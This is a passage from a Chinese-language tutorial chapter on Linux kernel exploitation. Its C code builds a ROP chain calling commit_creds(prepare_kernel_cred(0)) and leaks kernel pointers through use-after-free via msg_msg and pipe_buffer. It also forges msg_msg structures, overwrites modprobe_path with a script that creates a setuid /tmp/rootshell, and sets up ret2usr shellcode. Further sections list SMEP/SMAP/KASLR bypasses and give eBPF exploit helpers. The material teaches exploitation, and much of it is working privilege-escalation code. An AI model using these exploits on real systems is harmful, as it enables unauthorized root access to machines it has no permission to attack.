        if (sscanf(line, "%lx %c %s", &a, &type, sym) == 3) {
            if (strcmp(sym, name) == 0) {
                addr = a;
                break;
            }
        }
    }
    fclose(fp);
    return addr;
}

/*
 * 使用 ROPgadget 查找 gadget 地址
 *
 * 命令：ROPgadget --vmlinux /boot/vmlinux > gadgets.txt
 *
 * 需要的关键 gadgets：
 * 1. pop rdi ; ret           — 设置 prepare_kernel_cred 的参数
 * 2. mov rdi, rax ; ret      — 将 prepare_kernel_cred 的返回值传给 commit_creds
 * 3. swapgs ; iretq          — 安全返回用户态
 * 4. 或者：pop rdi ; pop rbp ; ret 等变体
 */
static unsigned long find_gadget(const char *vmlinux, const char *search) {
    char cmd[1024];
    snprintf(cmd, sizeof(cmd),
        "ROPgadget --vmlinux %s 2>/dev/null | grep '%s' | head -1",
        vmlinux, search);
    FILE *fp = popen(cmd, "r");
    if (!fp) return 0;

    char line[256];
    unsigned long addr = 0;
    if (fgets(line, sizeof(line), fp)) {
        sscanf(line, "%lx", &addr);
    }
    pclose(fp);
    return addr;
}

void build_and_trigger_exploit(void) {
    /* 1. 获取关键内核符号地址 */
    unsigned long commit_creds      = resolve_symbol("commit_creds");
    unsigned long prepare_kernel_cred = resolve_symbol("prepare_kernel_cred");

    if (!commit_creds || !prepare_kernel_cred) {
        printf("[-] Failed to resolve kernel symbols\n");
        return;
    }

    printf("[+] commit_creds       @ 0x%lx\n", commit_creds);
    printf("[+] prepare_kernel_cred @ 0x%lx\n", prepare_kernel_cred);

    /* 2. 获取关键 gadgets 地址
     * 实际利用中需要用 ROPgadget 工具从 vmlinux 中搜索
     * 这里用占位地址演示链的结构 */
    unsigned long pop_rdi_ret     = 0xdead000000000001;  /* pop rdi ; ret */
    unsigned long mov_rdi_rax_ret = 0xdead000000000002;  /* mov rdi, rax ; ret */
    unsigned long swapgs_ret      = 0xdead000000000003;  /* swapgs ; ret */
    unsigned long iretq_addr      = 0xdead000000000004;  /* iretq */

    /* 3. 构造 ROP 链 payload
     *
     * 内核栈溢出的典型布局：
     * [buf padding: 64 bytes] + [saved rbp: 8 bytes] + [ROP chain]
     */
    unsigned long payload[32];
    memset(payload, 0, sizeof(payload));
    int off = 0;

    /* 填充：buf(64B) + saved_rbp(8B) = 72B = 9 个 qword */
    for (int i = 0; i < 9; i++)
        payload[off++] = 0x4141414141414141ULL;  /* 'AAAAAAAA' */

    /* ROP Chain Step 1: pop rdi ; ret → rdi = 0 */
    payload[off++] = pop_rdi_ret;
    payload[off++] = 0;                            /* 参数: NULL */

    /* ROP Chain Step 2: prepare_kernel_cred(0) → 返回 init_cred 副本 */
    payload[off++] = prepare_kernel_cred;

    /* ROP Chain Step 3: mov rdi, rax ; ret → rdi = 返回的 cred 指针 */
    payload[off++] = mov_rdi_rax_ret;

    /* ROP Chain Step 4: commit_creds(new_cred) → 提权 */
    payload[off++] = commit_creds;

    /* ROP Chain Step 5: swapgs ; iretq → 返回用户态 */
    payload[off++] = swapgs_ret;
    payload[off++] = iretq_addr;

    /* iretq 参数：返回到用户态 get_root_shell */
    payload[off++] = (unsigned long)get_root_shell;  /* RIP */
    payload[off++] = user_cs;                         /* CS */
    payload[off++] = user_rflags;                     /* RFLAGS */
    payload[off++] = user_rsp;                        /* RSP */
    payload[off++] = user_ss;                         /* SS */

    printf("[*] ROP chain: %d qwords, %zu bytes\n", off, off * 8);

    /* 4. 触发漏洞 */
    int fd = open(DEVICE_PATH, O_RDWR);
    if (fd < 0) {
        perror("[-] Failed to open device");
        return;
    }

    struct vuln_data vd;
    vd.len = sizeof(payload);
    memcpy(vd.data, payload, sizeof(payload));

    printf("[*] Triggering exploit...\n");
    ioctl(fd, IOCTL_VULN, &vd);

    close(fd);
    printf("[-] Exploit failed (did not get root)\n");
}
```

---

### 31.1.4 内核堆漏洞利用（UAF）

Use-After-Free（释放后使用）是当前最常见的内核漏洞类型，也是现代内核利用中最灵活、最强大的攻击面。UAF 的核心思想：内核对象被释放后，其占用的内存空间可能被重新分配给其他对象，但原对象的指针仍然指向该内存区域。

#### UAF 利用原理



#### UAF 利用的完整流程

UAF 漏洞利用通常分为四个阶段，每个阶段都有明确的目标：

**阶段 1：信息泄露（KASLR 绕过）**

在现代内核中，KASLR 将内核代码段、模块、堆等都进行了随机化。利用 UAF 的第一步通常是泄露内核地址。

```c
/*
 * 信息泄露 —— 利用 UAF 读取内核堆残留指针
 *
 * 原理：
 * 当内核对象被 kfree 后，堆上可能残留未初始化的指针数据
 * 通过 UAF 读取这些指针，可以推算出内核基址
 *
 * 常见的泄露途径：
 * 1. msg_msg 残留数据 → 泄露内核堆地址
 * 2. pipe_buffer.ops 指针 → 泄露内核代码段地址
 * 3. setxattr 残留 → 泄露任意内核数据
 * 4. /proc/kallsyms（需要 kptr_restrict=0）
 */
unsigned long kernel_leak_via_msg_msg(int msqid) {
    /* 方案 A：通过 msg_msg 读取释放后的堆内容
     *
     * 当 msg_msg 被释放后，如果同一内存被重新分配给含有内核指针的对象
     * 通过 msgrcv 读取，就能获得内核地址
     */
    char buf[0x200];
    memset(buf, 0, sizeof(buf));

    ssize_t ret = msgrcv(msqid, buf, sizeof(buf) - sizeof(long), 1, 0);
    if (ret < 0) {
        perror("msgrcv");
        return 0;
    }

    /* 在残留数据中查找内核地址 */
    unsigned long leak = 0;
    for (int i = 0; i < ret - 7; i++) {
        unsigned long val = *(unsigned long *)(buf + sizeof(long) + i);
        /* 内核地址通常以 0xffff 开头 */
        if ((val >> 44) == 0xffff && (val & 0xfff) == 0) {
            leak = val;
            printf("[*] Potential kernel leak: 0x%lx (offset +%d)\n", leak, i);
            break;
        }
    }

    return leak;
}

/*
 * 信息泄露 —— 利用 pipe_buffer 读取内核指针
 *
 * pipe_buffer 结构体包含一个 ops 指针，指向 pipe_buffer_operations 结构
 * 这个指针位于内核 .rodata 段，可以用来计算内核基址偏移
 */
unsigned long kernel_leak_via_pipe(void) {
    int pipe_fd[2];
    if (pipe(pipe_fd) < 0) {
        perror("pipe");
        return 0;
    }

    /* 写入数据使 pipe_buffer 分配到堆上 */
    char data[0x1000];
    memset(data, 'A', sizeof(data));
    write(pipe_fd[1], data, sizeof(data));

    /* 读取数据 —— pipe_buffer.ops 指针可能残留 */
    unsigned long leak = 0;
    ssize_t n = read(pipe_fd[0], data, sizeof(data));

    for (int i = 0; i < n - 7; i += 8) {
        unsigned long val = *(unsigned long *)(data + i);
        if ((val >> 44) == 0xffff) {
            leak = val;
            printf("[*] pipe_buffer leak: 0x%lx\n", leak);
            break;
        }
    }

    close(pipe_fd[0]);
    close(pipe_fd[1]);
    return leak;
}
```

**阶段 2~4：堆喷射 → 覆盖 → 控制流劫持**

```c
/*
 * msg_msg 伪造技术 —— UAF 利用的核心手法
 *
 * 当 UAF 漏洞允许控制释放后内存的内容时，
 * 可以构造一个伪造的 msg_msg 结构体，使内核将攻击者控制的数据
 * 当作合法的消息内容返回
 *
 * 伪造 msg_msg 的关键字段：
 * - m_type: 消息类型（必须 > 0，否则 msgrcv 会跳过）
 * - m_ts:   消息大小（设置为超大值可实现越界读）
 * - security: 安全模块指针（设置为 NULL 避免访问检查）
 */
struct fake_msg_msg {
    void *next;           /* +0x00: 下一个消息（NULL） */
    void *prev;           /* +0x08: 上一个消息（NULL） */
    long m_type;          /* +0x10: 消息类型（> 0） */
    size_t m_ts;          /* +0x18: 消息大小（关键！） */
    void *m_list;         /* +0x20: 消息链表头 */
    void *security;       /* +0x28: 安全指针（NULL） */
};

void build_fake_msg_msg(unsigned char *buffer, size_t m_ts) {
    struct fake_msg_msg *fake = (struct fake_msg_msg *)buffer;
    memset(buffer, 0, 0x200);

    fake->next     = NULL;
    fake->prev     = NULL;
    fake->m_type   = 1;       /* 消息类型必须 > 0 */
    fake->m_ts     = m_ts;    /* 设置为超大值 → 越界读取 */
    fake->m_list   = NULL;
    fake->security = NULL;    /* 跳过 LSM 检查 */

    printf("[*] Fake msg_msg: m_ts = 0x%zx (%zu)\n", m_ts, m_ts);
}
```

#### modprobe_path 覆写技术

`modprobe_path` 是内核中的一个全局变量，默认值为 `/sbin/modprobe`。当内核尝试加载一个使用未知格式的可执行文件时，会调用 `call_modprobe()`，执行 `modprobe_path` 指向的程序。

如果攻击者能覆写 `modprobe_path` 为自己的脚本路径，就能在内核态权限下执行任意命令。

```c
/*
 * modprobe_path 覆写利用
 *
 * 利用链：
 * 1. 通过 UAF 找到 modprobe_path 的内核地址
 * 2. 覆写为攻击者控制的路径（如 /tmp/evil.sh）
 * 3. 创建恶意脚本（如提权脚本）
 * 4. 触发一个"格式未知"的可执行文件
 * 5. 内核以 root 权限执行 modprobe_path 指向的脚本
 *
 * modprobe_path 的特征：
 * - 默认值："/sbin/modprobe"（16字节）
 * - 位于内核 .data 段（RW权限）
 * - 通过 /proc/kallsyms 可获取地址
 */
void overwrite_modprobe_path(unsigned long kernel_base) {
    FILE *fp;
    char line[256];
    unsigned long modprobe_path_addr = 0;

    fp = fopen("/proc/kallsyms", "r");
    if (!fp) {
        printf("[-] Cannot open /proc/kallsyms\n");
        printf("[*] Try: echo 0 > /proc/sys/kernel/kptr_restrict\n");
        return;
    }

    while (fgets(line, sizeof(line), fp)) {
        if (strstr(line, "modprobe_path")) {
            sscanf(line, "%lx", &modprobe_path_addr);
            break;
        }
    }
    fclose(fp);

    if (!modprobe_path_addr) {
        printf("[-] Failed to find modprobe_path\n");
        return;
    }

    printf("[+] modprobe_path @ 0x%lx\n", modprobe_path_addr);

    /* 假设已通过 UAF 获得了任意内核地址写原语 */
    /* kernel_write(modprobe_path_addr, "/tmp/evil.sh", 13); */

    /* 创建恶意脚本 */
    FILE *f = fopen("/tmp/evil.sh", "w");
    if (f) {
        fprintf(f, "#!/bin/sh\n");
        fprintf(f, "cp /bin/sh /tmp/rootshell\n");
        fprintf(f, "chmod +s /tmp/rootshell\n");
        fclose(f);
        chmod("/tmp/evil.sh", 0777);
    }

    printf("[*] Created /tmp/evil.sh\n");
}

/*
 * 触发 modprobe 执行
 *
 * 创建一个具有未知 magic number 的文件并执行
 * 内核会调用 modprobe_path 指向的程序来处理这个"未知格式"
 */
void trigger_modprobe(void) {
    /* 创建未知格式的文件 */
    FILE *f = fopen("/tmp/dummy_fmt", "wb");
    if (f) {
        char bad_magic[] = {0xff, 0xff, 0xff, 0xff};
        fwrite(bad_magic, 1, sizeof(bad_magic), f);
        fclose(f);
        chmod("/tmp/dummy_fmt", 0777);
    }

    printf("[*] Triggering modprobe_path execution...\n");
    system("/tmp/dummy_fmt 2>/dev/null");
    sleep(1);

    if (access("/tmp/rootshell", F_OK) == 0) {
        printf("[+] Root shell created at /tmp/rootshell\n");
        printf("[+] Executing: /tmp/rootshell\n");
        system("/tmp/rootshell -p");
    } else {
        printf("[-] modprobe_path exploit failed\n");
    }
}
```

#### pipe_buffer 利用技术

`pipe_buffer` 是 Linux 管道（pipe）的内核缓冲区结构，每个 pipe 操作都会在内核堆上分配 `pipe_buffer` 结构体。它的优势在于对象大小较大（通常在 kmalloc-128 或 kmalloc-256 中），且 `ops` 指针可以被劫持。

```c
/*
 * pipe_buffer 利用技术
 *
 * pipe_buffer 结构体（约 40 字节）：
 * +0x00  void *page              ← 指向数据页
 * +0x08  unsigned int offset     ← 页内偏移
 * +0x0c  unsigned int len        ← 数据长度
 * +0x10  void *ops               ← pipe_buffer_operations 指针 ← 劫持目标!
 * +0x18  unsigned int flags      ← 标志位
 * +0x1c  unsigned long private   ← 私有数据
 *
 * 利用思路：
 * 1. 通过 UAF 释放 pipe_buffer 的内存
 * 2. 堆喷射覆盖 ops 指针为伪造的 operations 表
 * 3. 当内核调用 pipe_buf_operations->release() 时
 *    实际调用了攻击者伪造的函数指针
 *
 * pipe_buffer_operations 结构：
 * struct pipe_buffer_operations {
 *     void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
 *     void (*confirm)(struct pipe_inode_info *, struct pipe_buffer *);
 *     void (*get)(struct pipe_inode_info *, struct pipe_buffer *);
 *     void (*put)(struct pipe_inode_info *, struct pipe_buffer *);
 * };
 */
#define NUM_PIPES 256
int pipe_fds[NUM_PIPES][2];

void prepare_pipe_heap(void) {
    for (int i = 0; i < NUM_PIPES; i++) {
        if (pipe(pipe_fds[i]) < 0) {
            perror("pipe");
            return;
        }
    }

    /* 写入数据触发 pipe_buffer 分配 */
    for (int i = 0; i < NUM_PIPES; i++) {
        write(pipe_fds[i][1], "A", 1);
    }

    printf("[*] Prepared %d pipes for heap layout control\n", NUM_PIPES);
}

void release_pipe_buffers(void) {
    for (int i = 0; i < NUM_PIPES; i += 2) {
        read(pipe_fds[i][0], &(char){0}, 1);
    }
    printf("[*] Released every other pipe buffer\n");
}

void cleanup_pipes(void) {
    for (int i = 0; i < NUM_PIPES; i++) {
        close(pipe_fds[i][0]);
        close(pipe_fds[i][1]);
    }
}
```

---

### 31.1.5 ret2usr 攻击与 SMEP/SMAP 绕过

ret2usr（Return to Userspace）是一种利用内核可以直接执行用户态代码的特性来进行攻击的技术。当 SMEP/SMAP 未启用时，攻击者可以在用户态构造恶意数据结构或代码，然后引导内核跳转到用户态内存执行。

#### ret2usr 攻击原理

```c
/*
 * ret2usr 攻击原理
 *
 * 在没有 SMEP 的系统上，内核可以执行用户态页面中的代码
 * 在没有 SMAP 的系统上，内核可以访问用户态页面中的数据
 *
 * 攻击思路：
 * 1. 在用户态 mmap 一大块 RWX 内存
 * 2. 在其中放置伪造的内核数据结构（如 cred 结构体）
 * 3. 在其中放置提权 shellcode
 * 4. 通过内核漏洞将内核的控制流重定向到用户态代码
 *
 * 优势：不需要在内核堆中寻找 gadgets，不需要 KASLR 绕过
 * 劣势：被 SMEP/SMAP 保护机制完全防御
 */

#include <sys/mman.h>

/* 在用户态构造伪造的 cred 结构体 */
struct kernel_cred {
    unsigned long usage;
    unsigned int uid;
    unsigned int gid;
    unsigned int suid;
    unsigned int sgid;
    unsigned int euid;
    unsigned int egid;
    unsigned int fsuid;
    unsigned int fsgid;
    unsigned int securebits;
    unsigned long cap_inheritable;
    unsigned long cap_permitted;
    unsigned long cap_effective;
    unsigned long cap_bset;
    unsigned long cap_ambient;
};

/* 创建所有字段为 root (uid=0) 的伪造 cred */
struct kernel_cred fake_cred = {
    .usage            = 0x100,        /* 高引用计数避免异常 */
    .uid = 0, .gid = 0,
    .suid = 0, .sgid = 0,
    .euid = 0, .egid = 0,
    .fsuid = 0, .fsgid = 0,
    .securebits = 0,
    .cap_inheritable = 0,
    .cap_permitted    = ~0UL,         /* 全部 capabilities */
    .cap_effective    = ~0UL,
    .cap_bset         = ~0UL,
    .cap_ambient      = 0,
};

/*
 * ret2usr 提权 shellcode
 *
 * 这段代码在内核态中执行（通过 ret2usr 跳转过来）
 * 它修改当前进程的 cred 指针，指向用户态伪造的 root cred
 *
 * 关键知识点：
 * - current 宏获取当前进程的 task_struct
 * - task_struct.cred 是指向凭证结构体的指针
 * - 将 cred 指针指向伪造的 uid=0 结构体 = 提权
 */
void ret2usr_shellcode(void) {
    /* 在内核态中执行（通过漏洞跳转到此处） */

    /* 方法1：直接修改 cred 指针 */
    /* struct task_struct *task = current; */
    /* task->cred = &fake_cred; */

    /* 方法2：使用内核 API（更可靠） */
    /* commit_creds(prepare_kernel_cred(NULL)); */

    /* 回到用户态执行 */
    char *argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
}

/*
 * 分配用户态可控内存区域
 * MAP_ANONYMOUS | MAP_FIXED 可以精确控制虚拟地址
 */
void setup_user_controlled_memory(void) {
    /* 在已知地址分配 RWX 内存 */
    void *addr = mmap((void *)0x13370000, 0x10000,
                      PROT_READ | PROT_WRITE | PROT_EXEC,
                      MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED,
                      -1, 0);
    if (addr == MAP_FAILED) {
        perror("mmap");
        return;
    }

    /* 将 fake_cred 复制到可预测的地址 */
    memcpy((void *)0x13370000, &fake_cred, sizeof(fake_cred));

    /* 将 shellcode 复制到紧邻的位置 */
    void (*shellcode)(void) = (void (*)(void))0x13371000;
    memcpy((void *)0x13371000, ret2usr_shellcode, 0x100);

    printf("[*] User-controlled memory setup at 0x13370000\n");
    printf("[*] fake_cred at 0x13370000, shellcode at 0x13371000\n");
}
```

#### SMEP 与 SMAP 绕过技术

SMEP（Supervisor Mode Execution Prevention）和 SMAP（Supervisor Mode Access Prevention）是 Intel 在现代处理器中引入的硬件保护机制，通过 CR4 寄存器的第 20 位和第 21 位控制。

```c
/*
 * SMEP/SMAP 绕过技术详解
 *
 * SMEP (CR4 bit 20 = 1):
 * - 阻止内核态执行用户态页面中的代码
 * - 违反时触发 #PF 异常
 *
 * SMAP (CR4 bit 21 = 1):
 * - 阻止内核态访问用户态页面中的数据
 * - 可通过临时清除（AC flag）绕过
 *
 * 绕过方法一览：
 */
void smep_smap_bypass_overview(void) {
    printf("=== SMEP/SMAP 绕过方法 ===\n\n");

    printf("方法1: CR4 寄存器修改（绕过 SMEP）\n");
    printf("  原理: 通过 ROP 修改 CR4 的第 20 位\n");
    printf("  需要: native_write_cr4 gadget (mov cr4, rdi; ret)\n");
    printf("  步骤:\n");
    printf("    pop rdi ; ret          → rdi = 原CR4 & ~(1<<20)\n");
    printf("    mov cr4, rdi ; ret     → 关闭 SMEP\n");
    printf("    [跳转到用户态代码]\n\n");

    printf("方法2: ROP 全内核空间利用（不触碰 SMEP）\n");
    printf("  原理: 所有 gadgets 和数据都在内核空间\n");
    printf("  优势: 不需要修改任何保护寄存器\n");
    printf("  难度: 需要大量内核 ROP gadgets\n\n");

    printf("方法3: KPTI trampoline（绕过 KPTI）\n");
    printf("  原理: 使用内核中已有的用户态/内核态切换代码\n");
    printf("  需要: 找到 swapgs_restore_regs_and_return_to_usermode\n");
    printf("  特点: 现代内核中最常用的返回用户态方法\n\n");

    printf("方法4: 页表操纵（绕过 SMAP）\n");
    printf("  原理: 修改页表使用户态页面映射为内核态可访问\n");
    printf("  需要: 任意内核地址写原语\n");
    printf("  难度: 非常高，需要理解 x86 页表结构\n");
}

/*
 * 通过 ROP 修改 CR4 关闭 SMEP 的示例
 *
 * 关键 gadget: native_write_cr4
 * 在较早的内核版本中，native_write_cr4 函数：
 *   mov cr4, rdi
 *   ret
 * 
 * 修改 CR4 值的计算：
 *   new_cr4 = old_cr4 & ~(1 << 20)  // 清除 SMEP 位
 *
 * 注意: 在较新的内核中，native_write_cr4 可能被替换
 *       为更安全的版本，需要寻找其他途径
 */
```

---

### 31.1.6 竞争条件漏洞利用

竞争条件（Race Condition）是内核漏洞中最难利用的类型之一，因为涉及精确的时序控制。典型场景：内核在两个操作之间存在时间窗口，攻击者在此窗口中插入恶意操作。

#### TOCTOU 竞争条件模型



```c
/*
 * 内核竞争条件利用
 *
 * 经典案例：CVE-2015-3636 (ping_unhash)
 * - ping_unhash() 先检查 socket 是否在 hash 表中
 * - 然后执行删除操作
 * - 在检查和删除之间，另一个线程可以将 socket 重新添加
 * - 导致 double-unhash，引发引用计数错误
 *
 * 利用策略：
 * 1. 使用多线程高并发触发竞争窗口
 * 2. 通过 CPU affinity 绑定核心减少调度抖动
 * 3. 使用内存屏障（memory barrier）控制执行时序
 */
#include <pthread.h>
#include <sched.h>

volatile int race_won = 0;
volatile int race_trigger = 0;

/*
 * 竞争条件利用模板
 *
 * 关键技术：
 * - pthread_create 创建多个并发线程
 * - sched_setscheduler 设置实时调度策略，减少调度延迟
 * - CPU 亲和性绑定，避免核心迁移
 * - 内存屏障控制操作顺序
 */
void *race_thread_check(void *arg) {
    /* 线程A：执行检查操作 */
    while (!race_won) {
        race_trigger = 1;  /* 标记：开始操作 */
        /* 竞争窗口 —— 等待线程B修改条件 */
        for (volatile int i = 0; i < 10; i++);
        /* 检查点 —— 验证条件是否被修改 */
        if (race_trigger == 2) {
            race_won = 1;
            printf("[+] Race condition won!\n");
            break;
        }
        race_trigger = 0;
    }
    return NULL;
}

void *race_thread_modify(void *arg) {
    /* 线程B：在竞争窗口中修改条件 */
    while (!race_won) {
        if (race_trigger == 1) {
            race_trigger = 2;  /* 修改：条件已改变 */
        }
    }
    return NULL;
}

/*
 * 高级竞争条件利用技巧：
 *
 * 1. CPU 亲和性绑定
 *    sched_setaffinity(0, sizeof(mask), &mask);
 *    将两个线程绑定到同一核心，确保它们交替执行
 *
 * 2. 实时调度策略
 *    struct sched_param param = { .sched_priority = 99 };
 *    sched_setscheduler(0, SCHED_FIFO, &param);
 *    使用 FIFO 策略减少调度延迟
 *
 * 3. 内存屏障
 *    __sync_synchronize();  // 全屏障
 *    __sync_fetch_and_add(&counter, 1);  // 原子操作
 *    确保操作的可见性和顺序
 *
 * 4. 利用延迟扩大竞争窗口
 *    在检查和操作之间插入可控延迟
 *    如：kthread_work、vmalloc、内存分配等
 */
```

---

### 31.1.7 现代内核安全防护机制详解

现代 Linux 内核部署了多层安全防护机制，理解它们的工作原理和局限性是内核漏洞利用的基础。

```c
/*
 * 内核安全防护机制完整清单与检测方法
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

struct kernel_protection {
    const char *name;
    const char *config_key;
    const char *description;
    const char *bypass_method;
};

static const struct kernel_protection protections[] = {
    {
        "KASLR", "CONFIG_RANDOMIZE_BASE",
        "内核地址空间随机化，加载地址在 2MB 边界随机偏移",
        "信息泄露（/proc/kallsyms, dmesg, perf_event）或暴力破解（256种可能）"
    },
    {
        "SMEP", "CONFIG_X86_SMEP",
        "阻止内核执行用户态页面中的代码（CR4 bit 20）",
        "ROP 链全在内核空间; 或修改 CR4 清除 SMEP 位"
    },
    {
        "SMAP", "CONFIG_X86_SMAP",
        "阻止内核访问用户态页面中的数据（CR4 bit 21）",
        "使用内核空间数据; 或通过 clac/stac 指令临时绕过"
    },
    {
        "KPTI", "CONFIG_PAGE_TABLE_ISOLATION",
        "内核/用户态使用不同页表，Meltdown 缓解",
        "使用 swapgs trampoline; 或 perf_event 泄露"
    },
    {
        "Stack Canary", "CONFIG_STACKPROTECTOR_STRONG",
        "栈保护金丝雀，检测栈溢出",
        "泄露 canary 值; 或绕过（堆漏洞不需要）"
    },
    {
        "CFI", "CONFIG_CFI_CLANG",
        "控制流完整性，间接调用/跳转保护",
        "使用被 CFI 白名单中的 gadgets; 或信息泄露"
    },
    {
        "Shadow Call Stack", "CONFIG_SHADOW_CALL_STACK",
        "影子栈保存返回地址，ROP 攻击缓解",
        "修改影子栈内容; 或利用非返回型攻击（JOP）"
    },
    {
        "HARDENED_USERCOPY", "CONFIG_HARDENED_USERCOPY",
        "用户态到内核态拷贝的边界检查",
        "利用不经过 usercopy 的内核路径"
    },
    {
        "SLAB_FREELIST_HARDENED", "CONFIG_SLAB_FREELIST_HARDENED",
        "freelist 指针加密，防止堆元数据腐败",
        "泄露加密 cookie; 或利用 UAF 但不修改 freelist"
    },
};

void print_protection_table(void) {
    printf("+---+------------------+------------------------------------------------------+----------------------------------------------------------+\n");
    printf("| # | 防护机制         | 描述                                                 | 绕过方法                                                 |\n");
    printf("+---+------------------+------------------------------------------------------+----------------------------------------------------------+\n");

    for (int i = 0; i < sizeof(protections)/sizeof(protections[0]); i++) {
        printf("| %d | %-16s | %-52s | %-54s |\n",
               i + 1,
               protections[i].name,
               protections[i].description,
               protections[i].bypass_method);
    }

    printf("+---+------------------+------------------------------------------------------+----------------------------------------------------------+\n");
}

/*
 * 检测当前系统启用的保护机制
 */
void detect_kernel_protections(void) {
    FILE *fp;
    char line[512];

    printf("=== 检测当前内核保护机制 ===\n\n");

    /* 检查 KASLR */
    fp = fopen("/proc/cmdline", "r");
    if (fp) {
        fgets(line, sizeof(line), fp);
        if (strstr(line, "nokaslr")) {
            printf("[!] KASLR: 已禁用 (nokaslr)\n");
        } else {
            printf("[+] KASLR: 已启用\n");
        }
        fclose(fp);
    }

    /* 从内核配置文件检查其他保护 */
    char config_path[256];
    snprintf(config_path, sizeof(config_path),
             "/boot/config-$(cat /proc/version | awk '{print $3}')");

    fp = popen("uname -r", "r");
    if (fp) {
        char kver[128];
        fgets(kver, sizeof(kver), fp);
        pclose(fp);

        /* 去除换行符 */
        kver[strcspn(kver, "\n")] = 0;
        snprintf(config_path, sizeof(config_path),
                 "/boot/config-%s", kver);

        for (int i = 0; i < sizeof(protections)/sizeof(protections[0]); i++) {
            char cmd[512];
            snprintf(cmd, sizeof(cmd), "grep '^%s=' %s 2>/dev/null",
                     protections[i].config_key, config_path);
            FILE *check = popen(cmd, "r");
            if (check) {
                if (fgets(line, sizeof(line), check)) {
                    if (strstr(line, "=y")) {
                        printf("[+] %s: 已编译\n", protections[i].name);
                    } else if (strstr(line, "=m")) {
                        printf("[~] %s: 模块 (可能未加载)\n", protections[i].name);
                    } else {
                        printf("[-] %s: 已禁用\n", protections[i].name);
                    }
                } else {
                    printf("[-] %s: 未配置\n", protections[i].name);
                }
                pclose(check);
            }
        }
    }
}
```

#### KASLR 绕过方法详解

KASLR（Kernel Address Space Layout Randomization）是第一道防线。绕过 KASLR 是所有内核漏洞利用的前置条件。

| 绕过方法 | 原理 | 信息来源 | 成功率 | 适用场景 |
|---------|------|---------|-------|---------|
| `/proc/kallsyms` 读取 | 非特权读取内核符号地址 | kptr_restrict=0 时可见 | 100% | 开发/测试环境 |
| `dmesg` 日志泄露 | 内核启动日志包含地址信息 | `dmesg \| grep -i 'kASLR'` | ~50% | 启动后未清除日志 |
| perf_event 溢出 | 触发 perf_event 内核缓冲区溢出 | CVE-2015-3904 | 高 | 有 perf_event 漏洞 |
| 侧信道攻击 | 利用缓存时间差异推测地址 | Flush+Reload | ~90% | 无直接泄露途径 |
| 暴力破解 | KASLR 在 2MB 边界随机化 | 无 | ~0.4%/次 | 无其他方法时 |

**暴力破解 KASLR 的概率分析：**

KASLR 在 x86_64 上的随机化范围是 512MB（256 个 2MB 对齐位置）。每次尝试的成功概率为 1/256 ≈ 0.39%。但需要注意：
- 成功的利用需要内核不崩溃（错误地址通常导致 kernel panic）
- 如果利用不导致崩溃（如 UAF 可以检测是否成功），则可以重试
- 128 次尝试的成功概率：`1 - (255/256)^128 ≈ 39.4%`
- 256 次尝试的成功概率：`1 - (255/256)^256 ≈ 63.4%`

---

### 31.1.8 实战：CVE 漏洞利用案例分析

#### CVE-2016-4557：eBPF Double-Free

```c
/*
 * CVE-2016-4557 深度分析
 *
 * 基本信息：
 * - 漏洞类型：Double-Free (堆内存双重释放)
 * - 影响组件：eBPF (Extended Berkeley Packet Filter)
 * - 影响版本：Linux Kernel < 4.5.4
 * - CVSS 评分：7.8 (High)
 *
 * 漏洞根因：
 * 在 net/core/filter.c 的 BPF verifier 中，
 * 当 BPF 程序包含对 bpf_map 的引用时，verifier 在验证过程中
 * 会调用 bpf_map_put() 释放 map 引用。
 * 但如果程序被多次加载/释放，可能导致同一 map 被释放两次。
 *
 * 利用链：
 * 1. 创建 BPF map (BPF_MAP_TYPE_ARRAY)
 * 2. 加载包含漏洞的 BPF 程序
 * 3. 卸载程序触发 double-free
 * 4. 堆喷射覆盖 freed 的 map 内存
 * 5. 通过悬垂指针读写伪造的 map 数据
 * 6. 实现任意内核地址读写
 * 7. 覆写 cred 或 modprobe_path
 *
 * 关键技术：
 * - eBPF 是现代内核漏洞利用的重要攻击面
 * - eBPF verifier 复杂度高，历史上存在多个绕过漏洞
 * - eBPF map 提供了可靠的信息泄露和堆操控能力
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/bpf.h>

/* eBPF 系统调用包装 */
static inline int bpf_syscall(int cmd, union bpf_attr *attr, unsigned int size) {
    return syscall(__NR_bpf, cmd, attr, size);
}

/* 创建 BPF map */
int create_bpf_map(int map_type, int key_size, int value_size, int max_entries) {
    union bpf_attr attr = {
        .map_type    = map_type,
        .key_size    = key_size,
        .value_size  = value_size,
        .max_entries = max_entries,
    };
    int fd = bpf_syscall(BPF_MAP_CREATE, &attr, sizeof(attr));
    if (fd < 0) {
        perror("BPF_MAP_CREATE");
    } else {
        printf("[+] Created BPF map: type=%d, key=%d, value=%d, entries=%d, fd=%d\n",
               map_type, key_size, value_size, max_entries, fd);
    }
    return fd;
}

/* 加载 BPF 程序（包含漏洞触发代码） */
int load_vulnerable_bpf_prog(struct bpf_insn *insns, int insn_count) {
    /* 分配日志缓冲区获取 verifier 输出 */
    char *log_buf = malloc(0x10000);
    union bpf_attr attr = {
        .prog_type = BPF_PROG_TYPE_SOCKET_FILTER,
        .insns     = (unsigned long long)insns,
        .insn_cnt  = insn_count,
        .license   = (unsigned long long)"GPL",
        .log_buf   = (unsigned long long)log_buf,
        .log_size  = 0x10000,
        .log_level = 1,
    };

    int fd = bpf_syscall(BPF_PROG_LOAD, &attr, sizeof(attr));
    if (fd < 0) {
        printf("[-] BPF_PROG_LOAD failed\n");
        printf("Verifier log:\n%s\n", log_buf);
    }
    free(log_buf);
    return fd;
}

/*
 * eBPF 利用的通用模板：
 *
 * 1. 泄露阶段：
 *    - 创建 BPF_MAP_TYPE_ARRAY
 *    - 利用 verifier bug 实现越界读（OOB Read）
 *    - 读取 eBPF 指令数组后面的内核指针
 *    - 计算 KASLR 偏移
 *
 * 2. 任意读写阶段：
 *    - 越界写修改 BPF map 的数据指针
 *    - 使 map 数据指向任意内核地址
 *    - 通过 bpf_map_lookup_elem 读取任意内核内存
 *    - 通过 bpf_map_update_elem 写入任意内核内存
 *
 * 3. 提权阶段：
 *    - 读取当前进程的 task_struct 地址
 *    - 通过 cred 字段实现提权
 *    - 或覆写 modprobe_path
 */
```

#### CVE-2022-0847：Dirty Pipe

```c
/*
 * CVE-2022-0847 (Dirty Pipe) 分析
 *
 * 基本信息：
